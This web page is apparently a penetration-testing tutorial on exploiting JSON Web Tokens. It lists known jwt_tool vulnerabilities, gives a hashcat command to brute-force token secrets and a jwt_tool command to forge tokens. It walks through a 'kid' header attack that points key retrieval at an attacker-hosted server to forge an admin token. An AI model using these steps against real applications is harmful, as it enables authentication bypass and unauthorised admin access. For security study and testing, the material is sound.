 [back](/)

### JSON Web Tokens exploitation

What JSON Web Token (JWT) is? It is an open standard RFC 7519 for creating access tokens, in accordance with which information is transmitted in the form of a JSON object. 
JSON signature algorithms are used to secure the transmission of such information. For more information about JWT read: jwt.io. 

The JWT is divided into three sections, separated by a dot: **HEADER.PAYLOAD.SIGNATURE**

To work with the JWT, [jwt_tool](https://github.com/ticarpi/jwt_tool) utility is best suited, which will allow exploiting the most popular vulnerabilities:

```
(CVE-2015-2951) The alg=none signature-bypass vulnerability
(CVE-2016-10555) The RS/HS256 public key mismatch vulnerability
(CVE-2018-0114) Key injection vulnerability
(CVE-2019-20933/CVE-2020-28637) Blank password vulnerability
(CVE-2020-28042) Null signature vulnerability
```

In case there are no vulnerabilities, you can try to guess or brute the JWT encryption password and try to collect a new key with changed values. For example, set the flag **"is_admin":"true"** or something similar. In order to generate the appropriate JWT, that will be suitable for the application, a secret key is required.

To brute force a JWT using a dictionary:

```
hashcat -a 0 -m 16500 jwthash.txt wordlist.txt
```

![Image](/img/jwt/1.png)

For parse JWT you can use [jwt.io](https://jwt.io/) site or the [jwt_tool](https://github.com/ticarpi/jwt_tool) utility:

![Image](/img/jwt/2.png)

![Image](/img/jwt/2.5.png)

To generate JWT by [jwt_tool](https://github.com/ticarpi/jwt_tool):

```
python3 jwt_tool.py -b -S hs256 -p 'keypass' $(echo -n '{"typ":"JWT","alg":"HS256"}' | base64).$(echo -n '{"data": {"username": "jaki"}}' | base64 -w0).
```

In this case, it is represented an attack on the JWT, where the HEADER section uses reading the private key to decrypt the token:

```
HEADER:
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://localhost:7070/privKey.key" --- change to attacker ip
}

PAYLOAD

{
  "username": "root",
  "email": "1@test.ru",
  "admin_cap": "false" --- change on true 
}
```

In this example, the attacker can try to replace the ip-address with his own, having previously created a pair of keys:

```
ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key
```

Initially, access to the admin panel is closed due to the set flag, in PAYLOAD: **"admin_cap":"false"**.

![Image](/img/jwt/3.png)

There are two ways to encrypt a JWT with the **"admin_cap":"true"** flag and the "kid" HEADER key:

1. Using the site https://jwt.io/
2. Or using jwt_tool.py

```
python3 jwt_tool.py CURRENT_JWT -T -S rs256 -pr /tmp/keys/privKey.key
```

![Image](/img/jwt/4.png)

![Image](/img/jwt/4.5.png)

Before sending the JWT application, you need to start the http-server to access the private key:

![Image](/img/jwt/5.png)

The attacker gained access to the admin panel

![Image](/img/jwt/6.png)


<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)